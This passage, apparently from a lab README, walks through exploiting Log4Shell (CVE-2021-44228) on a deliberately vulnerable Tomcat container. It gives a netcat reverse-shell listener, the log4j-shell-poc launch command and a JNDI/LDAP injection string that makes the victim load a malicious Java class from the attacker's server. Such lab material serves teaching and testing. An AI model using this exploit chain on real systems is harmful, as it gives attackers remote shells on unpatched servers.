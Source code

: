 ![VulnerableTomcatServer](\assets\img\VulnerableTomcatServer.png)



### Setup the Attacker

First, we need to activate a TCP listener for the remote shell to connect back to. Using `netcat`, in a new terminal do:

```sh
sudo netcat -lvnp 9001
```

Then, we need to activate our exploit. On a new terminal do:

```sh
cd log4j-shell-poc
python3 poc.py --userip 172.16.238.1 --webport 80 --lport 9001
```

where `userip` is our machine's IP address in the docker network, `webport` is the listener port for HTTP requests, and `lport` is the `netcat` port we defined above.

What you will see:

```sh
[!] CVE: CVE-2021-44228                                                             
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                          

[+] Exploit java class created success  # named "Exploit.class"
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://172.16.238.1:1389/a} # string to input in victim application

[+] Starting Webserver on port 80 http://0.0.0.0:80 # webserver running on port 80 to serve payload (malicious Java class)
Listening on 0.0.0.0:1389 # malicious LDAP server listening for requests
```
